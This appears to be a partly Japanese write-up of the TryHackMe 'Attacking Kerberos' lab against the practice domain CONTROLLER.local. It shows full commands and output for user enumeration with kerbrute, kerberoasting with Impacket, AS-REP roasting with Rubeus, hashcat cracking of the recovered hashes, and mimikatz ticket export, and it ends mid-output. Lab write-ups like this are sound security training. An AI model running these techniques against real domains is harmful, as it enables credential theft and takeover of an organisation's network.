

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | Not specified |
| Primary Entry Vector      | brute-force, kerberoasting |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)


## Nmap


### Not implemented (or log not saved)


### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

参考リンク
https://medium.com/@valerie7995/attacking-kerberos-tryhackme-9e8f2aa0e4bf

https://igorsec.blog/2023/12/15/tryhackme-attacking-kerberos/

ユーザの一覧を出す

```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

[GetUserSPNs.py](http://getuserspns.py/) 

すべてのkerberoastableアカウントのKerberosハッシュをダンプしてくれる

```bash
┌──(n0z0㉿LAPTOP-P490FVC2)-[/usr/share/doc/python3-impacket/examples]
└─$ sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.161.86 -request
[sudo] password for n0z0:
Impacket v0.12.0.dev1+20240725.125704.9f36a10e - Copyright 2023 Fortra

ServicePrincipalName                             Name         MemberOf                                                         PasswordLastSet             LastLogon                   Delegation
-----------------------------------------------  -----------  ---------------------------------------------------------------  --------------------------  --------------------------  ----------
CONTROLLER-1/SQLService.CONTROLLER.local:30111   SQLService   CN=Group Policy Creator Owners,OU=Groups,DC=CONTROLLER,DC=local  2020-05-26 07:28:26.922527  2020-05-26 07:46:42.467441
CONTROLLER-1/HTTPService.CONTROLLER.local:30222  HTTPService                                                                   2020-05-26 07:39:17.578393  2020-05-26 07:40:14.671872

[-] CCache file is not found. Skipping...
$krb5tgs$23$*SQLService$CONTROLLER.LOCAL$controller.local/SQLService*$7c221c1312a6acf62ff62153200a1f79$884f79695b62cec74d1965b07e4480b690b45ff06927f109529043189b184181f2a7701c75273e8a25e150a153b478e3dd2e09b33b77e8e6fa191f5245bcd16c877c192a209833e7a0a6f7bb885a62634bb00daeccc1498ff2c4d2732ca76a1660cb39dd6e6ea40837c91ffe2350d6fefa2dfeec2d696d04dfa84689d3480f8dfeb7a7ab8c3fa958a69143a4e43d2a038387f425df50baf710a94b4fcfd891d03a6dfc7bab6fd2f0271f3e3ec048369ab0b8ebe3e0f43782953657f0eb01e1a1edb77018c677c48bca937f9fae872986d4b019f735ecbe8eacac537886bff24a3bceba3cfdd566b7ad432405c115aab1381caa84791ade224c4ff4d5959823be5bb6cefab7bf1e89769fb48364d71ded91dfb9e827ee019ef919f55b1e2c5fda3f1633c06135bdbb1c093e3eec1b0971292e24e179f13c28f932ae57000b0dddaa312fc05b4ab3f9f38fa18217d74e996d898c90329c288ffc96dd8272d9b5058d23fdfa97321a555e2813406f40666c97ca98d93439e060544141ba196c96b630a236acb4e71e80889627d3e9dd53bfb3d539f77d703af016694281591d88559f268d100760ba4c1001cc50a937f079964597ea497e083c94c03b9ae8795d1458fd55004bba8bf06ec4b74b427ceebacf492e1409a06b6c0b0c09883f5a59e825d9bd6fe013dcd67f0ed59c5178575910d875edc6e5350beab29bff6fb61d337e1b3f247fdebdd3c5b64a22ed0376a02e3a9648653c4dbee9134e17c80fca71f82a2b2f27f8304a397aa8f58b2054f040729492c942694b5df7238afbe6fe237dc130784c17ea112421482bd0ecb2e455116cc1cfa21c530edce9d1384a0da3b74ef34b48dc89a388e1f22ffe1404078752ebec3ce65c85ffde233ecf675de021fbe0728feda468b9a1f85e2fd58612e55df1154bd6c8e81a9b645972f064015098f5fcb75700fb5a603464c8933539f0c87768f6ad843076a795634eb6841305c6893245dac186110b94556fadeccced46f44660f362356b0296c6820b4686015f56d655142bd829fd02c7a970de085bafdc31193da3d95181a5dd204254fac2664c6b0867e6d77260de31cf8662bd689d9641e3fc715bb50aa656c9fe7d1136ecda48ea311f86eaf74a75f9bed2d185a61983f9649f9dd72edde724baba5a683a37f479b1e59b429ff8827ea7da78c47ebcc9a0c695d08523181a9d6cc18516c946c21ae8479460a11ea42f199edecffab8b8ef66851b6d7c833fd42373473a683287527454d503d6f91c8b418d9f3c2bf44b689d088d975522e27b1fcd6e198a0731a64e19e04e968f85351fa4ef6f61bf6942cf8cfb095cc39240861c4f07b9548e26fe20c20b38818ca9a6214275
$krb5tgs$23$*HTTPService$CONTROLLER.LOCAL$controller.local/HTTPService*$2baa1fe93188e2d659ab5fc19217b5e2$3a24c67ae5c9bdd01afe937bf05d6553fd54e08b294d44aff1072341b44373d67d121d3d74aca9b5806699e9b6b76e8761d0330689dc62becdc8cb590e13f1b091e1fd8107512c2ea738615597d89616c6e697aa33a8c1e13a2873c299f8424338a7e2a52d5e15ad488a7f1cb7c5cfcd48273543f373939140de1b7d9929b6c709537d4ada530916ee8706ebe6eb9a2b46e275cef2b5b1b0404af9b01edf7e8c99aacd737c2d75c45b2695a98c5bdd3df4cf4519ff6c6973e7cd783f274f4a187d83142f2fa406fedd4a60519caf0de69a89380472e6156944b870c5d7a6205b7654846b930fd491de85fb47201f1263a4474c00e16b23561cb9c50e0443a9368933fea60498384c5ca95eb2112e266e546428ee1c564d135c93688536e5ebb6e8041a0ff66571dd1a88cc96a85f0f9147bccbf52e3e5073c99a135221b9d45ce318867391f8a9950560c54831d4952fddb9540e8d797d6a77a88824f92b9187bb8b9aebf9eb609e960de3ca29968a74fb1064aa814ca83fc7a90b9cd0de0cc06fa258ef5c46cac10a4025a7c9fb964af24ed06171adb3b142ec030f9bffd7238fc7876731ab92a92913c18178c4d5c93fbbb6303037d95aea025d146c2b0a1f731bac5aa0a5814e81b7ba37ba00db81390ce0a22ab55cb30e3f11da52e891a58b9d2530822b4d290c3e3d501b8d592edfbe27df1c79625aa37d5ba52dcab0f50f27826b567963eee9d7f9d658d75fe15dd405972d5b32dcc58cb21de4192a9e86aff2d3ded350abd010428982c6da248d93d4563d1e29ab9213479f54b8fb655690efa05bbffffefb79a7c464117e1a953426ffa63dfe5958396632ff8e5fd3ab94196b7af789b72b954dd98efd7a10656dcf2880a7a09831656050cdaaed67bdacc31bc7825cd5dd58d2cd8917a1c8d274a1ce602ec70d52cc87b315d7aec98c2f1825e47f85998ab14059af07a2cc57a504f9b4af319e26992b6843b89b56f9d02ae5bb01759e31a082f4969e0d5df34043372d38db14a3c9427ac392df02710e6085363925287dadd329851e4cf9985a6e168799dbba8bf1e54e5e700caff84c2d8e7ae0b90f998da982ba87e877c06b9c6a7b78adcfeaa8eac122347ce8bcfa6403010b375d6e83905bff134e2d659bc24cdaa4ea4719229a5e98292bdfd74182065f0526e765316035943833f7c338fd1837282300e66128957bd72cb1b8372b29c3cf562b536ee30f35987c8be533617b0df2afac3618c7380438cf8d89aaa26da2475fcf3784d624b50d166dc263f8d8299106217b3df54c07f4952cbc300876f56bc26e7fc61310092f4675cd487ab7061555d7839dd368a9ce15732422ccb7d8a04eabe6f536c0c8ddcc5a89
Rubeus.exe asreproast
C:\Users\Administrator\Downloads>Rubeus.exe asreproast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: AS-REP roasting

[*] Target Domain          : CONTROLLER.local

[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::495f:363d:6dda:b81%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:75391EC98893551D06C2F94883924ABD$8C8FF2FA7255
      16E680AA5B66D49CBD8DAA43B3B0E7886DFC496FC7B058681AA5764386255B0FE052DB9F72012893
      25228A8C3980E0B5E130ACD0D0F2294FBCA57EC6F0603C7190AF000081F6E6D569A11A16DF0ABFA9
      CCE3CA619655D4EB109CEC5CBA3471839D3C4693E6A0517AFBAA1772C70FCE3C145EA1367D1FD09B
      9860CFEB58AF394B7642DC05BE9B461A8B68C85952F73C0961B0060080F9591EFA979A23C67701F3
      0455095AA69A396270D3B456031CD4B419C12DA517E1561B2A3A6D2FA308FEA48D3BBED03881C550
      199EA7240155615C2A056934B09A8C9695619989F07D2EB5B1BC79F7007AFEF68D062FE81536

[*] SamAccountName         : User3
[*] DistinguishedName      : CN=User-3,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::495f:363d:6dda:b81%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\User3'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$User3@CONTROLLER.local:7F21581CE06F9AF634E53E88654934CD$901ED7FCCBD7D
      5AB16602F57765FDB617FF27CB451153195530482E392B913BB4E9C0C58C9CF0A2F7168AD6866717
      F9B181AE61CDF40BE35C2F7F1EF3BABCBB011C67A58657A3C54FC293A220ACDD8D51AEEFA104F6B1
      7B67BA68D7844DB81DCF1A25C5EC60AD51B80163AC9A204F3AC970AC0D7386696C21F037085D9997
      2F98724B35C043CC0B8E166AB0AA3A0092B5EC507C89B7FC3A2DDBD1380E0757FEDAB07B973C16D7
      998963D1E062636192346E91F8B260ED58C92DDDAFF427AD4EC87F7FAC94525AB69C597F32662973
      C9A8B0AEE7E80D5CC822C0C7EF6450FF2FFD2A03FD52F9BD325FE92845795195464617A2A6A
```

ハッシュをダンプするとパスワードが複合できる

```bash
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/Attacking_Kerberos]
└─$ hashcat -m 18200 hash2.txt Pass.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 Microsoft Surface (R) Edition, 2777/5618 MB (1024 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 4 MB

Dictionary cache hit:
* Filename..: Pass.txt
* Passwords.: 1240
* Bytes.....: 9706
* Keyspace..: 1240

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

$krb5asrep$Admin2@CONTROLLER.local:75391ec98893551d06c2f94883924abd$8c8ff2fa725516e680aa5b66d49cbd8daa43b3b0e7886dfc496fc7b058681aa5764386255b0fe052db9f7201289325228a8c3980e0b5e130acd0d0f2294fbca57ec6f0603c7190af000081f6e6d569a11a16df0abfa9cce3ca619655d4eb109cec5cba3471839d3c4693e6a0517afbaa1772c70fce3c145ea1367d1fd09b9860cfeb58af394b7642dc05be9b461a8b68c85952f73c0961b0060080f9591efa979a23c67701f30455095aa69a396270d3b456031cd4b419c12da517e1561b2a3a6d2fa308fea48d3bbed03881c550199ea7240155615c2a056934b09a8c9695619989f07d2eb5b1bc79f7007afef68d062fe81536:P@$$W0rd2

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$Admin2@CONTROLLER.local:75391ec98893551d...e81536
Time.Started.....: Thu Sep  5 01:40:24 2024 (0 secs)
Time.Estimated...: Thu Sep  5 01:40:24 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (Pass.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   310.6 kH/s (0.50ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1240/1240 (100.00%)
Rejected.........: 0/1240 (0.00%)
Restore.Point....: 0/1240 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> hello123

Started: Thu Sep  5 01:40:01 2024
Stopped: Thu Sep  5 01:40:25 2024

┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/Attacking_Kerberos]
└─$ hashcat -m 18200 hash3.txt Pass.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 Microsoft Surface (R) Edition, 2777/5618 MB (1024 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 4 MB

Dictionary cache hit:
* Filename..: Pass.txt
* Passwords.: 1240
* Bytes.....: 9706
* Keyspace..: 1240

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

$krb5asrep$User3@CONTROLLER.local:7f21581ce06f9af634e53e88654934cd$901ed7fccbd7d5ab16602f57765fdb617ff27cb451153195530482e392b913bb4e9c0c58c9cf0a2f7168ad6866717f9b181ae61cdf40be35c2f7f1ef3babcbb011c67a58657a3c54fc293a220acdd8d51aeefa104f6b17b67ba68d7844db81dcf1a25c5ec60ad51b80163ac9a204f3ac970ac0d7386696c21f037085d99972f98724b35c043cc0b8e166ab0aa3a0092b5ec507c89b7fc3a2ddbd1380e0757fedab07b973c16d7998963d1e062636192346e91f8b260ed58c92dddaff427ad4ec87f7fac94525ab69c597f32662973c9a8b0aee7e80d5cc822c0c7ef6450ff2ffd2a03fd52f9bd325fe92845795195464617a2a6a:Password3

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$User3@CONTROLLER.local:7f21581ce06f9af63...7a2a6a
Time.Started.....: Thu Sep  5 01:41:12 2024 (0 secs)
Time.Estimated...: Thu Sep  5 01:41:12 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (Pass.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   300.0 kH/s (0.37ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1240/1240 (100.00%)
Rejected.........: 0/1240 (0.00%)
Restore.Point....: 0/1240 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> hello123

Started: Thu Sep  5 01:41:10 2024
Stopped: Thu Sep  5 01:41:15 2024
```

この攻撃は事前認証がオフになっている場合に有効

```bash
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # exit
Bye!

C:\Users\Administrator\Downloads>dir
 Volume in drive C has no label.
 Volume Serial Number is E203-08FF

 Directory of C:\Users\Administrator\Downloads

09/04/2024  11:35 AM    <DIR>          .
09/04/2024  11:35 AM    <DIR>          ..
05/25/2020  03:45 PM         1,263,880 mimikatz.exe
05/25/2020  03:14 PM           212,480 Rubeus.exe
09/04/2024  11:35 AM             1,787 [0;1de47b]-1-0-40a50000-CONTROLLER-1$@GC-CONTROLLER-1.CONTROLLER.local.kirbi
09/04/2024  11:35 AM             1,587 [0;2f002a]-2-0-60a10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi
09/04/2024  11:35 AM             1,755 [0;2f891]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
09/04/2024  11:35 AM             1,587 [0;33888]-2-0-60a10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi
09/04/2024  11:35 AM             1,791 [0;3e4]-0-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
09/04/2024  11:35 AM             1,587 [0;3e4]-2-0-40e10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi
09/04/2024  11:35 AM             1,755 [0;3e7]-0-0-40a50000-CONTROLLER-1$@HTTP-CONTROLLER-1.CONTROLLER.local.kirbi
09/04/2024  11:35 AM             1,787 [0;3e7]-0-1-40a50000-CONTROLLER-1$@GC-CONTROLLER-1.CONTROLLER.local.kirbi
09/04/2024  11:35 AM             1,721 [0;3e7]-0-2-40a50000-CONTROLLER-1$@cifs-CONTROLLER-1.kirbi
09/04/2024  11:35 AM             1,711 [0;3e7]-0-3-40a50000.kirbi
09/04/2024  11:35 AM             1,791 [0;3e7]-0-4-40a50000-CONTROLLER-1$@cifs-CONTROLLER-1.CONTROLLER.local.kirbi
09/04/2024  11:35 AM             1,791 [0;3e7]-0-5-40a50000-CONTROLLER-1$@LDAP-CONTROLLER-1.CONTROLLER.local.kirbi
09/04/2024  11:35 AM             1,755 [0;3e7]-0-6-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
09/04/2024  11:35 AM             1,721 [0;3e7]-0-7-40a50000-CONTROLLER-1$@LDAP-CONTROLLER-1.kirbi
09/04/2024  11:35 AM             1,587 [0;3e7]-2-0-60a10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi
09/04/2024  11:35 AM             1,587 [0;3e7]-2-1-40e10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi
09/04/2024  11:35 AM             1,755 [0;6aa89]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
09/04/2024  11:35 AM             1,755 [0;6aae5]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
09/04/2024  11:35 AM             1,791 [0;6ab21]-1-0-40a50000-CONTROLLER-1$@LDAP-CONTROLLER-1.CONTROLLER.local.kirbi
09/04/2024  11:35 AM             1,755 [0;6ab5a]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi
              22 File(s)      1,510,716 bytes
               2 Dir(s)  50,927,149,056 bytes free

C:\Users\Administrator\Downloads>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export

Authentication Id : 0 ; 3080234 (00000000:002f002a)
Session           : Network from 0
User Name         : CONTROLLER-1$
Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 9/4/2024 9:51:14 AM
SID               : S-1-5-18

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/4/2024 9:20:19 AM ; 9/4/2024 7:20:18 PM ; 9/11/2024 9:20:18 AM
           Service Name (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Target Name  (--) : @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             0b4e17f0e5335ec93696502e49c84b3df15a099ecf7aea0dec3a3d49067a671f
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;2f002a]-2-0-60a10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi !

Authentication Id : 0 ; 1034490 (00000000:000fc8fa)
Session           : RemoteInteractive from 2
User Name         : administrator
Domain            : CONTROLLER
Logon Server      : CONTROLLER-1
Logon Time        : 9/4/2024 9:31:16 AM
SID               : S-1-5-21-432953485-3795405108-1502158860-500

         * Username : administrator
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 437082 (00000000:0006ab5a)
Session           : Network from 0
User Name         : CONTROLLER-1$
Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 9/4/2024 9:25:00 AM
SID               : S-1-5-18

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 9/4/2024 9:20:19 AM ; 9/4/2024 7:20:18 PM ;
           Service Name (02) : ldap ; CONTROLLER-1.CONTROLLER.local ; @ CONTROLLER.LOCAL
           Target Name  (--) : @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             17b6d23468d8b3424d654d82a058b9dc91879c804fb23fe2eeac1f0e52a3c2e1
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;6ab5a]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi !

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 436965 (00000000:0006aae5)
Session           : Network from 0
User Name         : CONTROLLER-1$
Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 9/4/2024 9:25:00 AM
SID               : S-1-5-18

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 9/4/2024 9:20:19 AM ; 9/4/2024 7:20:18 PM ;
           Service Name (02) : ldap ; CONTROLLER-1.CONTROLLER.local ; @ CONTROLLER.LOCAL
           Target Name  (--) : @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             17b6d23468d8b3424d654d82a058b9dc91879c804fb23fe2eeac1f0e52a3c2e1
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;6aae5]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi !

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 436873 (00000000:0006aa89)
Session           : Network from 0
User Name         : CONTROLLER-1$
Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 9/4/2024 9:25:00 AM
SID               : S-1-5-18

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 9/4/2024 9:20:19 AM ; 9/4/2024 7:20:18 PM ;
           Service Name (02) : ldap ; CONTROLLER-1.CONTROLLER.local ; @ CONTROLLER.LOCAL
           Target Name  (--) : @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             17b6d23468d8b3424d654d82a058b9dc91879c804fb23fe2eeac1f0e52a3c2e1
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;6aa89]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi !

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 211080 (00000000:00033888)
Session           : Network from 0
User Name         : CONTROLLER-1$
Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 9/4/2024 9:20:19 AM
SID               : S-1-5-18

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/4/2024 9:20:19 AM ; 9/4/2024 7:20:18 PM ; 9/11/2024 9:20:18 AM
           Service Name (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Target Name  (--) : @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             0b4e17f0e5335ec93696502e49c84b3df15a099ecf7aea0dec3a3d49067a671f
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;33888]-2-0-60a10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi !

Authentication Id : 0 ; 194705 (00000000:0002f891)
Session           : Network from 0
User Name         : CONTROLLER-1$
Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 9/4/2024 9:20:19 AM
SID               : S-1-5-18

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 9/4/2024 9:20:19 AM ; 9/4/2024 7:20:18 PM ;
           Service Name (02) : ldap ; CONTROLLER-1.CONTROLLER.local ; @ CONTROLLER.LOCAL
           Target Name  (--) : @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             17b6d23468d8b3424d654d82a058b9dc91879c804fb23fe2eeac1f0e52a3c2e1
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;2f891]-1-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi !

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 60818 (00000000:0000ed92)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 9/4/2024 9:19:42 AM
SID               : S-1-5-90-0-1

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.local
